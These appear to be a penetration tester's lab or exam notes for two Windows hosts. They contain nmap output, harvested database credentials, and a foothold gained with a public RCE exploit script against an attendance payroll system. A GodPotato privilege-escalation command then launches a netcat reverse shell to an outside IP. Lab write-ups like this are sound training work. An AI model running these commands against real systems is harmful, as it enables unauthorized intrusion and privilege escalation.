 ```
3307/tcp  open  opsession-prxy?
5040/tcp  open  unknown
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
47001/tcp open  http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc           Microsoft Windows RPC
49665/tcp open  msrpc           Microsoft Windows RPC
49666/tcp open  msrpc           Microsoft Windows RPC
49667/tcp open  msrpc           Microsoft Windows RPC
49668/tcp open  msrpc           Microsoft Windows RPC
49669/tcp open  msrpc           Microsoft Windows RPC
49670/tcp open  msrpc           Microsoft Windows RPC
58599/tcp open  msrpc           Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-09-02T13:51:11
|_  start_date: N/A
```

## Intersting Info
1. ``` __construct( $host = 'localhost', $user = 'root', $password = '', $database = 'apsystem' )  ``` from port 81 http
2. nurhodelta:password (from db)
3. 3306 is mysql | 3307 is maria db

## Foothold
1. found rce by attendance payroll system 50801 exploit
   ```
   python3 50801.py http://ms01:81
   ```
2. at ms01\mary.williams
   
## Root
1. Godpotato since whoami /priv have seimpersonate
2. ``` .\GodPotato-NET4.exe -cmd "C:\wamp64\attendance\images\nc64.exe 192.168.45.222 443 -e cmd.exe" ```

# MS02 .142
- ms02-oscp.exam
```
Nmap scan report for 10.10.200.142
Host is up (0.057s latency).
Not shown: 65520 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-09-08T13:41:56+00:00; -5s from scanner time.
```